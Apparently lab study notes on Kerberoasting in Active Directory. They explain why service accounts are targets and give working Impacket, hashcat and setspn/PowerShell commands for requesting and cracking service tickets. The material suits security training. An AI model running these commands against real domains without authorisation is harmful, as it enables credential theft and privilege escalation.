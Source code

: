 Any domain user can request a Kerberos ticket for any service account in the same domain. It's also possible across forest trusts depending on the environment. All that's needed is an account's NTLM hash or password, and a shell in the context of the domain user. We can also just have SYSTEM level access on a domain joined host.

Most service accounts are granted admin access on different systems. This is because services often require elevated privileges. These accounts can also be added to privileged groups, such as Domain Admin. 

Getting a Kerberos ticket for an account with an SPN doesn't allow to execute commands on behalf of the account, but the ticket (TGS-REP) is encrypted using the service account's NTLM hash, so the cleartext password can possibly be cracked. Accounts with weak or reused passwords are common since they simplify administration, so it's not uncommon to see this.

Here's where we can perform the attack from:
- Non-domain joined Linux host with valid domain user credentials
- Domain joined Linux host as root after retrieving the keytab file
- From a domain joined Windows host authenticated as a domain user
- From a domain joined Windows host with a shell of a domain user
- As SYSTEM on a domain joined Windows host
- From a non-domain joined Windows host using [`runas`](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) with the option `/netonly`

Here's some tools we can use:
- [`GetUserSPNs.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host
- A combination of `setspn.exe` (it's built-in to Windows), PowerShell, and `Mimikatz`
- From Windows using `PowerView`, [`Rubeus`](https://github.com/GhostPack/Rubeus), and a few scripts.

Note that after we obtain a TGS ticket, it doesn't guarantee that we can crack the password or get an account that has the privileges we want. TGS tickets also take longer to crack than other formats as well.
### Kerberoasting From Linux
For this, we'll be using `GetUserSPNs.py`, which is a tool from [`Impacket`](https://github.com/SecureAuthCorp/impacket). Here's how we can use it:
```shell
# List Users
GetUserSPNs.py -dc-ip <Domain controller> <Domain>/<Domain user>

# Request all tickets
GetUserSPNs.py -dc-ip <Domain controller> <Domain>/<Domain user> -request

# Request one user
GetUserSPNs.py -dc-ip <Domain controller> <Domain>/<Domain user> -request-user <user>

# To save data to an output file, use -outputfile <filename>
# Hashcat quick reference
hashcat -m 13100 <hash> <wordlist>
```
### Kerberoasting From Windows
There's a more manual way to do it using a built-in binary called [`setspn`](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)):
```PowerShell
# Getting SPNs
setspn.exe -Q */*

# Request ticket of single user
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"

# Retrieve all tickets of accounts with SPNs set and load into memory
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```